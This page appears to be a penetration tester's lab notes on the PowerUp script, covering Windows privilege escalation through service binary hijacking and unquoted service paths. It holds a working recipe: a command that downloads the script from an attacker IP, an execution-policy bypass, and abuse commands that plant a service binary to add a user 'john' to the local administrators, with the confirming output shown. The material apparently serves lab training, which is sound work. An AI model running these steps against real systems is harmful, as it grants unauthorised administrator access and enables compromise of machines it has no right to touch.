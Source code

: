 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# PowerUp

{% tabs %}
{% tab title="1. Location" %}
```bash
/usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1
```
{% endtab %}

{% tab title="2. Transfer" %}
```powershell
iwr -uri http://192.168.48.3/PowerUp.ps1 -Outfile PowerUp.ps1

```
{% endtab %}

{% tab title="3. Execute" %}
```powershell
> powershell -ep bypass
>  . .\PowerUp.ps1
```
{% endtab %}
{% endtabs %}

Services' commands.

{% tabs %}
{% tab title="1. Status" %}
```powershell
Get-Service -Name 'BackupMonitor'
```
{% endtab %}

{% tab title="2. Start/Stop" %}
```powershell
> Start-Service -Name "<ServiceName>"
> Stop-Service -Name "<ServiceName>" -Force
```
{% endtab %}

{% tab title="3. Restart" %}
```powershell
Restart-Service -Name 'BackupMonitor' -Force
```
{% endtab %}
{% endtabs %}

## Service Binary Hijacking

{% tabs %}
{% tab title="1. Enumerate" %}
{% code overflow="wrap" %}
```powershell
Get-ModifiableServiceFile
```
{% endcode %}
{% endtab %}

{% tab title="2. Abuse" %}
{% code overflow="wrap" %}
```powershell
Install-ServiceBinary -Name 'mysql'
```
{% endcode %}
{% endtab %}

{% tab title="3. Restart" %}
```powershell
Restart-Service -Name 'mysqld' -Force
```
{% endtab %}

{% tab title="4. Confirm" %}
```powershell
> net user

User accounts for \\CLIENTWK220

-------------------------------------------------------------------------------
Administrator            BackupAdmin              dave
dave2                    daveadmin                DefaultAccount
Guest                    john            offsec
steve                    WDAGUtilityAccount

The command completed successfully.

> net localgroup administrators
...
john
...
```
{% endtab %}
{% endtabs %}

## Unquoted Service Paths

{% tabs %}
{% tab title="1. Enumerate" %}
{% code overflow="wrap" %}
```powershell
> Get-UnquotedService

ServiceName    : GammaService
Path           : C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=NT AUTHORITY\Authenticated Users;
                 Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'GammaService' -Path <HijackPath>
CanRestart     : True
Name           : GammaService

ServiceName    : GammaService
Path           : C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=NT AUTHORITY\Authenticated Users;
                 Permissions=System.Object[]}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'GammaService' -Path <HijackPath>
CanRestart     : True
Name           : GammaService
...
```
{% endcode %}
{% endtab %}

{% tab title="2. Abuse" %}
{% code overflow="wrap" %}
```powershell
> Write-ServiceBinary -Name 'GammaService' -Path "C:\Program Files\Enterprise Apps\Current.exe"

ServiceName  Path                                         Command
-----------  ----                                         -------
GammaService C:\Program Files\Enterprise Apps\Current.exe net user john Password123! /add && timeout /t 5 && net loc...
```
{% endcode %}
{% endtab %}

{% tab title="3. Restart" %}
{% code overflow="wrap" %}
```powershell
> Restart-Service GammaService
WARNING: Waiting for service 'GammaService (GammaService)' to start...
Restart-Service : Failed to start service 'GammaService (GammaService)'.
At line:1 char:1
+ Restart-Service GammaService
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : OpenError: (System.ServiceProcess.ServiceController:ServiceController) [Restart-Service]
   , ServiceCommandException
    + FullyQualifiedErrorId : StartServiceFailed,Microsoft.PowerShell.Commands.RestartServiceCommand
```
{% endcode %}
{% endtab %}

{% tab title="4. Confirm" %}
```powershell
> net user

User accounts for \\CLIENTWK220

-------------------------------------------------------------------------------
Administrator            BackupAdmin              dave
dave2                    daveadmin                DefaultAccount
Guest                    john            offsec
steve                    WDAGUtilityAccount

The command completed successfully.

> net localgroup administrators
...
john
...
```
{% endtab %}
{% endtabs %}






